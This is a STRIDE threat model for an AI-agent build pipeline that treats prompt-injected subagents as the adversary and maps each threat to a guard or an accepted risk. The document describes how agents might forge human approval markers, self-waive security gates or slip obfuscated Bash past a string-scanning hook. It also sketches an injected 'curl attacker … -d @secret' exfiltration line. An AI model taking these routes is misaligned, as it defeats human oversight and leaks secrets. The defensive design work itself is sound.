

# Pipeline threat model — the engine as target (M9 / PR K)

**Scope: the pipeline *engine itself*, not the app it builds.** The application the
pipeline produces is threat-modeled per feature by planning's
`stride-threat-model-template` skill and reconciled against the built diff by the
security agent's step 6f. *This* document threat-models the **tooling** — the
orchestrator, subagents, `.pipeline/*` interlock files, deterministic hooks, and the
untrusted inputs the engine ingests — treating a prompt-injected or misbehaving
subagent as the adversary. Method: STRIDE (Shostack, *Threat Modeling*). Keep the two
scopes distinct; they are easy to re-conflate.

Companion to the code guards in `global-hooks/` and the permission model in
`.claude/settings.json` / `templates/project-settings.json`. Every threat below maps
to an **existing guard**, the **new PR K guard**, or a **stated accepted risk**.

## Step 1 — Assets and trust boundaries

**Assets**
- The two **human-owned approval markers** — `.pipeline/plan-approved` (plan
  checkpoint; implementation refuses to start without it) and `.pipeline/diff-approved`
  (M5 diff-review; the deploy gate's approval + currency anchor). Forging either forges
  a human decision.
- The **gate-input files** — `test-results.json`, `security-status.json`,
  `pr-description.md` — read by `deployment-gate.sh`.
- The **deterministic hooks** themselves (the enforcement layer).
- **GitHub push/PR authority** (held by the deployment stage) and the developer's
  machine secrets (the Claude Code credential in `~/.claude`, any `.env`).
- The **code, tests, and docs** the pipeline emits.

**Trust boundaries** (threats live here)
1. **Human ↔ orchestrator (main thread)** — the human drives and is trusted; the
   main thread is *not* gated by agent PreToolUse hooks (only subagents are).
2. **Orchestrator ↔ subagent** — each subagent starts with fresh context + a prompt
   string. It is *semi-trusted*: correct by construction, but **steerable by its
   inputs** (prompt injection).
3. **Subagent ↔ `.pipeline/*` shared state** — subagents read/write these files; the
   gates read them. A subagent writing a file it has no business writing is the core
   tampering/spoofing surface.
4. **Subagent ↔ deterministic hooks** — hooks are trusted, fail-closed enforcement.
5. **Pipeline ↔ untrusted external input** — `PROJECT.md`, cloned-repo code + READMEs,
   dependency registry/README text (`plan-audit` curls npm/PyPI; `security` reads
   dependency metadata), and screenshots (if vision is used). All are **data an agent
   reads**, and all are potential prompt-injection carriers.
6. **Pipeline ↔ GitHub** — the deployment stage commits, pushes, and opens the PR.

## Step 2 — STRIDE enumeration

| Category | Boundary / Asset | Attack vector | Sev | Mitigation → guard or gap |
|---|---|---|---|---|
| **Spoofing** | Subagent → approval markers (2/3) | A Bash-capable subagent (esp. deployment) writes `.pipeline/diff-approved`, or plan-audit/implementation writes `.pipeline/plan-approved`, forging the human's approval and bypassing a checkpoint | **H** | `approve-diff.sh` TTY-only (no approval *via the helper*); human-approves-first ordering; explicit agent prohibition; **NEW `guard-approval-markers.sh`** PreToolUse Bash hook on all 7 Bash agents (blocks marker *writes*); **NEW settings `deny` on `Write`/`Edit`** of both markers. Residual: obfuscated Bash (below). |
| **Spoofing** | Subagent → gate-status files | A late-running agent (e.g. documentation, after security) writes `security-status.json`=`clean` / a passing `test-results.json` it didn't earn | **M** | The owning agent legitimately writes these (a blunt guard would false-positive), so mitigated by orchestrator ordering + `stamp-ran-at.sh` (real UTC `ran_at`) + the harness-pinned loop-exit≡gate invariant; residual accepted (below). |
| **Spoofing / EoP** | Subagent → security waivers | The security agent writes an `osv_waiver` (lifts the CVE floor) or an `asvs.waivers` entry (lifts the ASVS floor) into `security-status.json` that **no human accepted** — self-waiving past a deterministic gate | **M–H** | **NEW Option B:** waivers are recorded only by a human via `record-waiver.sh` (TTY-only) into `.pipeline/waivers.json`; `guard-approval-markers.sh` + settings `deny` block agent writes to it; **`deployment-gate.sh` blocks any claimed `osv_waiver`/`asvs.waivers` with no matching human record** (deploy-only; `tests/suites/waiver-guard.sh`). Residual: the agent can still *under-report* a finding (omit a miss rather than fabricate a waiver) — closed per-requirement by the **ASVS-determinism roadmap** (Tier 1 SAST / Tier 2 required-tests), not the waiver path. |
| **Tampering** | Untrusted input → downstream agent | Hostile text in `PROJECT.md` / a cloned README / a dependency README / **a design bundle (screenshot text, exported HTML comment, Figma layer name) / an MCP result** instructs an agent to weaken a test, widen scope, skip a mitigation, or exfiltrate | **H** | **Three human checkpoints** (design-approved after reading the design-spec + its injection report; plan-approved after plan + plan-audit; diff-approved after the diff + `/code-review` + reports); **deterministic gates, never LLM-judged**; the **"untrusted input = data, not instructions" convention** (pipeline-orchestration skill, extended to image/HTML/MCP carriers) with the **design-spec agent's injection report** quoting embedded imperatives as NOT ACTED ON; plan-audit ambiguity flags; security 6f surface reconciliation. Residual: a subtle injection surviving human review. |
| **Tampering** | Subagent → gate inputs | Editing `test-results.json` perf/criteria to score a criterion complete without exercising it | **M** | Deterministic **perf-pairing + criteria-coverage** gate (PR G), `stamp-ran-at.sh`, and the loop-exit≡gate invariant test (a declared budget with a null measured value never passes). |
| **Repudiation** | Subagent action trail | An agent acts with no record | **L** | `log-run.sh` Stop hook on all 9 agents (incl. the conditional design-spec stage) → `run-log.jsonl`; the single git commit is attributable. |
| **Info disclosure** | Injected egress / secret read | Injected `curl attacker … -d @secret`, or reading `.env` | **M** | `deny(Read(**/.env))` + `*.tfvars`/`*.tfstate`; **no secrets in the working tree** (the Claude credential lives in `~/.claude`, outside the repo); deployment's pre-commit secret scan; logging PII redaction. Residual: `curl` egress is allow-listed (registry checks need it) — accepted, because there is nothing sensitive in-tree to exfiltrate. |
| **Info disclosure** | Pipeline → GitHub | A secret/junk file committed into the PR | **M** | Deployment **pre-commit content inspection** (`deployment-checklist-and-rollback` skill grep set) + GitHub secret-scanning/push-protection (repo hygiene). |
| **DoS** | Debug/scan/test loop | A failing feature loops forever, burning the model budget | **L–M** | `loop-guard.sh` circuit-breaker (cycle + wall-clock caps → terminal `capped`, human escalation, never auto-cleared) + per-agent `maxTurns`. |
| **Elevation of privilege** | Subagent out of lane | testing edits prod code; deployment bypasses the gate to self-authorize a deploy | **M** | Per-agent **tool scoping** (deployment has *only* Bash); `deployment-gate.sh` fail-closed PreToolUse; the marker guard closes deployment's self-approval path specifically. |

## Step 3 — Severity rubric

- **High** — high impact (a forged human approval ships unreviewed code; an injection
  weakens a real mitigation) with a plausible vector. Must be mitigated.
- **Medium** — meaningful impact but constrained likelihood, or limited impact with an
  easy vector. Mitigate or consciously accept.
- **Low** — minor impact or remote likelihood. Note and move on.

## Verification status (both marker-guard vectors)

- **Bash vector** — `guard-approval-markers.sh` is covered by `tests/suites/marker-guard.sh`
  (29 assertions: write-shapes blocked; reads + real command sets allowed; a wiring check
  that all 7 Bash agents actually wire it). Green in `tests/run-eval.sh`.
- **`Write`/`Edit` deny vector** — **verified live** (2026-07-02): a `Write` to
  `.pipeline/diff-approved` and `.pipeline/plan-approved` is blocked by the permission layer,
  while a `Write` to a non-marker `.pipeline/` path succeeds — so the deny is **precisely
  scoped to the two markers** and does not impede legitimate agent artifacts
  (`test-results.json`, `security-status.json`, `plan.md`, …). Note: settings changes load at
  session start, so after editing the deny, restart the session for it to take effect.

## Step 4 — Accepted risks / residual (stated, not hidden)

- **Obfuscated Bash past `guard-approval-markers.sh`.** The hook is a string scanner; a
  determined, injected agent could build the marker path from a variable, `$()`, or
  base64 and slip past it. The **`Write`/`Edit` deny is not obfuscatable**, and a forged
  `diff-approved` still has to match the deploy gate's currency hash *and* beat the
  human-approves-first ordering. Net: the bar moves from "just write the file" to
  "defeat two independent guards, one of them tool-level, while also matching the hash
  and the ordering." Accepted.
- **Cross-stage gate-status forgery.** `security-status.json` / `test-results.json` are
  legitimately written by their owning stage, so they cannot be blanket-guarded without
  false-positives. Mitigated by ordering, `ran_at` stamping, and the loop-exit≡gate
  invariant; the residual (a same-stage-shaped forgery by a later agent) is accepted.
- **`curl` egress is unrestricted** (plan-audit needs it for registry reality-checks).
  Accepted because the working tree holds no secrets to exfiltrate; the machine
  credential is outside the repo.
- **Subtle prompt injection surviving both human checkpoints.** The human review is the
  backstop; this residual is inherent to an LLM pipeline and is why the *deterministic*
  gates never delegate a pass/fail to model judgement.
- **No per-agent filesystem sandbox.** True per-subagent write isolation would need
  SDK-level sandboxing and is out of scope for this pass.

## Threat-model diagram (pipeline DFD)



## Copy-paste visualization prompt

```text
Assets: plan-approved and diff-approved (human-owned approval markers); gate-status
files (test-results.json, security-status.json, pr-description.md); deterministic
hooks; GitHub push/PR authority; machine secrets (~/.claude, .env); emitted code.
Trust boundaries: human↔orchestrator; orchestrator↔subagent (subagents are steerable
by inputs); subagent↔.pipeline/* files; subagent↔hooks (fail-closed); pipeline↔
untrusted input (PROJECT.md, cloned repos, dependency READMEs, screenshots); pipeline↔
GitHub.
STRIDE:
- Spoofing (High): a Bash subagent forges plan-approved/diff-approved to bypass a human
  checkpoint. Mitigation: approve-diff.sh TTY-only; human-approves-first ordering;
  guard-approval-markers.sh PreToolUse hook blocks marker writes; settings deny on
  Write/Edit of both markers.
- Tampering (High): prompt injection via untrusted input steers a downstream agent.
  Mitigation: two human checkpoints; deterministic (never LLM-judged) gates; treat
  untrusted input as data not instructions.
- Repudiation (Low): run-log.jsonl + single git commit.
- Information disclosure (Medium): injected curl egress / .env read. Mitigation: .env
  read-deny; no secrets in the working tree; deployment pre-commit secret scan.
- Denial of service (Low-Med): runaway loop. Mitigation: loop-guard circuit-breaker +
  maxTurns caps.
- Elevation of privilege (Medium): agent out of lane / deployment self-authorizing.
  Mitigation: per-agent tool scoping; fail-closed deployment gate; the marker guard.
Accepted residual: obfuscated Bash past the string scanner; cross-stage gate-status
forgery; unrestricted curl egress; subtle injection surviving human review; no per-agent
filesystem sandbox.
Render this as an OWASP Threat Dragon diagram. Output either (a) valid Threat Dragon
JSON importable at app.threatdragon.com, or (b) a labeled data flow diagram with trust
boundaries if JSON is not feasible. No additional context is available beyond what is in
this prompt.
```
